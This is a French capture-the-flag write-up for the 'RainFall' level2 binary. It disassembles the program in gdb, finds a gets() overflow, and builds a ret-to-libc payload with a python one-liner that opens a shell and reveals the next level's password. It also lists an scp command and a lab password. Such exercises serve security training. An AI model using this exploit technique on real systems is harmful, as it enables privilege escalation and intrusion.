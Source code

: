 On se connecte sur le level2, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **rettolibc**, et nous allons utliser un **RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *p+30 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
> (gdb) x/10x $eax
0xbffff6bc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6cc:     0xb7fd0f00      0x08048550      0x08049828      0x00000001
0xbffff6dc:     0x08048381      0xb7fd13e4

> (gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff720
 Arglist at 0xbffff708, args:
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
 
> (gdb) p 0xbffff70c - 0xbffff6bc
$1 = 80

> p *system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
> OFFSET : 80
> SYSTEM: <code>0xb7e6b060</code>
> RET: <code>0x0804853e</code>
> EXIT: <code>0xb7e5ebe0</code>



Pour récupéré l'adresse de /bin/sh, on écrit un petit programme en C dans /tmp.

```bash
> touch /tmp/getsh.c
> echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELL\")); return 0; }" > /tmp/getsh.c
> cd /tmp
> gcc getsh.c
> ./a.out
SHELL= 0xbffff945
```

On change l'environement du shell pour passer sur **/bin/sh** car **bash** garde les privilèges de l'utilisateur qui l'invoque.
On execute ensuite le programme avec notre buffer overflow suivi d'une addresse de ret, d'une addresse système, de l'addresse d'un exit et de l'addresse du **/bin/sh**.
Si l'addresse est légèrement décaler (in/sh par exemple), il suffit de modifier légèrement l'addresse pour obtenir **/bin/sh**.

```bash
> SHELL=/bin/sh
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x45\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`E
sh: 1: in/sh: Permission denied
^C`
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x43\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`C`
cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

For download :
<pre><code>scp -P4242 level2@192.168.1.78:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
